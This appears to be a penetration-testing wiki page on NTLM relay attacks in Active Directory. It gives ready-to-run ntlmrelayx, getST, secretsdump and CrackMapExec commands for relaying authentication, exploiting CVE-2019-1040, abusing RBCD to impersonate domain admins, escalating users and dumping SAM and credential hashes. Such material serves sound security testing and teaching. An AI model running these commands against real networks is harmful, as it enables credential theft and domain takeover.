

# NTLM Relay
MITRE ATT&CK™ Sub-technique T1557.001

After successfully forcing a victim to authenticate \(NTLM authentication\) to an attack server, the attacker can try to relay that authentication to targets of his choosing. Depending on the mitigations in place, he will be able to move laterally and escalate privileges within an Active Directory domain.



The NTLM authentication messages are embedded in the packets of application protocols such as SMB, HTTP, MSSQL, SMTP, IMAP. The way NTLM authentication is conducted is kind of protocol-independent. It means one can relay NTLM authentication messages over a certain protocol, say HTTP, over another, say SMB. That is called **cross-protocols NTLM relay**. It also means the relays and attacks possible depend on the application protocol the NTLM authentication is embedded in.

[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) , [MultiRelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) and [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) are great tools for relaying NTLM authentications. Those tools setup relay clients and relay servers waiting for incoming authentications. Once the servers are up and ready, the tester can initiate a forced authentication attack.

When combining NTLM relay with [[Responder]] for name poisoning, testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```text
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```

The following command will try to relay the authentication over SMB and attempt to dump the hashes from the remote target’s SAM if the relayed victim has the right privileges.
```bash
ntlmrelayx.py -t smb://$TARGET
```

The following command will try to relay the authentication over SMB and open a SOCKS proxy.
```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use secretsdump along with proxychains to dump hashes from the remote target's SAM, SYSTEM and SECURITY.
```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```

The following command will try to relay the authentication over LDAPS, attempt to exploit CVE-2019-1040 \(a.k.a. Drop the MIC\) to "unsign" the NTLM messages \(`--remove-mic`\), abuse the default value \(10\) of `ms-DS-MachineAccountQuota` to create a domain machine account \(`--add-machine`\) and finally, abuse Resource Based Kerberos Constrained Delegations \(RBCD\) to gain admin access to the relayed machine \(`--delegate-access`\).
```bash
ntlmrelayx.py -t ldaps://$DC_TARGET -smb2support --remove-mic --add-computer SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.
```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```

This technique is usually combined with a PushSubscription abuse (a.k.a. PrivExchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains (`WriteDACL` over domain object, see Abusing ACLs to escalate a domain user privileges \(`--escalate-user`\).

The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group \(`--escalate-user`\).
```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```
### Tools features
This tool offers many features making it a very valuable asset when pentesting an Active Directory domain:

* It can be combined with mitm6 \(for [IPv6 + name poisoning](../forced-authentications/#ipv6-dns-poisoning)\) be enabling IPv6 support with the `-6` option.
* It has the ability to open SOCKS proxies for every new session after a successful relayed authentication. This allows testers to exploit those sessions later on with tools like [proxychains](https://github.com/haad/proxychains). This feature can be enabled with the `-socks` option.
* It supports SMB2. It can be enabled with the `-smb2support` option.
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets.
* It implements CVE-2019-1040 with the `--remove-mic` option, usually needed when attempting "unsigning cross-protocols NTLM relay attacks" \(SMB to LDAP/S\).
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`.
* It has the ability to relay connections for specific target users.

In theory, thanks to [the recent "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker can be added to the targets to combine ntlmrelayx with Responder servers and capture a NTLM hash with a custom challenge while relaying

The targets file used with the `-tf` option can contain the following
```bash
# User filter for SMB only (for now)
smb://DOMAIN\User@192.168.1.101
smb://User@192.168.1.101

# Domain name can be used instead of the IP address
ldaps://someserver.domain.lan
someserver.domain.lan
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to generate the list of possible targets for relay to SMB \(hosts with SMB signing disabled\).
```bash
crackmapexec smb --gen-relay-list targets.txt $SUBNET
```

References:
https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay